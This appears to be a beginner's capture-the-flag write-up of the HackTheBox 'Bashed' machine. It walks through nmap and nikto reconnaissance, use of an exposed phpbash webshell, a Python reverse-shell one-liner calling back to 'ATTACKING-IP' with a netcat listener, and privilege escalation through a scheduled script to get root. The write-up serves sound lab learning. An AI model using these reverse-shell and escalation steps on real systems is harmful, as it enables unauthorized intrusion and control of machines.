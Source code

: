 [Back to Main Page](../index.html) 

# Bashed on HackTheBox





## Introduction

Bashed is a beginner's box which was the second CTF I ever attempted. When I tried it, I had booted up Kali and knew that a couple tools existed, but did not have any strategies, context or experience. 

This write up assumes that the reader is using Kali, but any pentesting distro such as [BlackArch](https://blackarch.org/) will work. The tools come with a stock Kali installation, unless otherwise mentioned.

## 1. Initial Scanning

All we do have is an IP so we start to run a nmap scan.

`nmap 10.10.10.68`

![1nmap](https://i.imgur.com/fyklCXk.png)

nmap did find TCP port 80.

Kali catogorizes most of the HTTP tools under "Web Application Analysis," so I took a peek and tried to get one of them working. I found the most useful starting commands for a website CTF is `nikto`

`nikto -h http://10.10.10.68:80`

Our `-h` flag tells nikto the location of our target. 

![1nikto](https://i.imgur.com/h1r2hqi.png)

Nikto shows us many intersting directories - one of them being /dev/. So I connected on it and found those .php scripts.

![2nikto](https://i.imgur.com/tupNPIp.png)


## 2. Using the found scripts to get access

The phpbash.py script is php based webshell, which allows us to set up a reverse shell. 
![1bashed](https://i.imgur.com/NUbWsT4.png)

First we create an netcat listener on our local kali machine.
`nc -lvnp 249`

Then I tried to create a normal connection, which got refused as there is no `nc -e`option on the machine.   
I found a python reverse shell in the web, which I executed with my options.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",249));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![2bashed](https://i.imgur.com/SdTGlj9.png)

Python worked as expected. After scanning the files I found a user called scriptuser, so I executed the same command with `sudo -u scriptmanager ....` and got access as scriptmanager.

![3bashed](https://i.imgur.com/99Jd661.png)

Now I had access to the before found /script/ path. There I found another python script, which just echos a hello world.

![4bashed](https://i.imgur.com/vO4mImP.png)

The script appeared to run sometimes, so I just created my own one in the same folder via port 2493 to get access as root.

`cat > file.py`

![5bashed](https://i.imgur.com/1ZGLawt.png)

After waiting a minute or so, port 2493 listener connected to the machine.

![6bashed](https://i.imgur.com/aRauVQP.png)

And there we go, the connection as root!
Now we finished by capturing the flag!

![7bashed](https://i.imgur.com/mR7HorY.png)





created file with cat > file.py
6
waited 

7 
rootshell!
